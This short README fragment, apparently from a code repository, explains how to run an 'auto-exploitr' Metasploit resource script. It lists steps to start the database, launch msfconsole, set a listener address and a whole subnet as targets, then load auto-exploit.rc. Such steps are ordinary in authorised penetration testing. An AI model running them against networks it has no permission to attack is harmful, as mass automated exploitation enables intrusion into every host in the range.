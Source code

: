 How to use the auto-exploitr script

1. /etc/init.d/postgresql start
2. msfconsole
3. setg LHOST 192.168.10.225
4. setg RHOSTS 192.168.10.0/24
5. resource auto-exploit.rc
